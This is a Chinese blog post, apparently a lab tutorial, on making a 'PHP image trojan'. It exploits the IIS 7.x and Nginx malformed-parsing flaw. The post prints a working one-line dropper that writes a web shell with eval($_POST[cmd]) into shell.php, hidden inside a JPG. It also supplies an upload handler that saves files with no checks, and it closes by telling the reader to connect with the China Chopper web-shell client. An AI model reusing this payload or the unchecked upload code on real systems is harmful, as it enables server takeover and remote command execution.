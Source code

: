 ```yaml
---
layout: post
title:  "PHP图片木马"
date:   2017-11-03 9:03:02 +0800
author: "Q九"
desc: "本测试主要针对的是 IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞 基于Windows系统的"

in_head: "<style> .article-content p{
  text-indent: 2em;
  line-height: 1.75rem;
}</style>"
---
```


# PHP图片木马 实现

*运行环境介绍*

**本测试主要针对的是 IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞**

> Nginx解析漏洞这个伟大的漏洞是我国安全组织80sec发现的
在默认Fast-CGI开启状况下,黑阔上传一个名字为wooyun.jpg，内容为

```
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>
```
>的文件，然后访问wooyun.jpg/.php,在这个目录下就会生成一句话木马 shell.php


**实验过程**

### 制作图片木马

**使用windows自带的 cmd 命令行进行图片木马的制作**

A.如下图所示:

![](neroxiezi.github.io/images/clipboard1.png)

 准备两个文件  一个 正常的图片文件  一个 一句话木马文件

B.如下图所示:
    
![]()

运行上图所写的命令 会把两个文件合成一个文件  如下图所示:

![]()

会看到文件大小 会变化

然后用记事本打开两个图片就会发现 图片内容发生改变如图

![]()

至此 一句话木马图片制造完毕！

### 接下来我们准备测试的代码 :

![]()

如图所示 我们准备一个 上传文件的表单  代码如下:

```html
<!doctype html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport"
          content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>
<body>
<form action="./2.php" method="post" enctype="multipart/form-data">
    <input type="file" name="pic" id="">
    <button type="submit">上传</button>
</form>
</body>
</html>
```
   

再准备一个2.php 文件 用来处理上传图片,代码如下:

```php
<?php
$file = $_FILES['pic'];
move_uploaded_file($file['tmp_name'],__DIR__.'/1.jpg');
```


### 开始试验

OK! 开始运行代码,上传我们生成的图片木马,上传完毕以后 如下图所示:

![]()

然后我们直接在浏览器中访问图片1.jpg 会看到图片正常显示, 接下来 我们访问图片的时候  路径 如图所示 

![]()

就会发现 在当前文件夹中生成一个 shell.php内容如下 :

![]()

### 试验完毕

ok 剩下的就是上菜刀了！
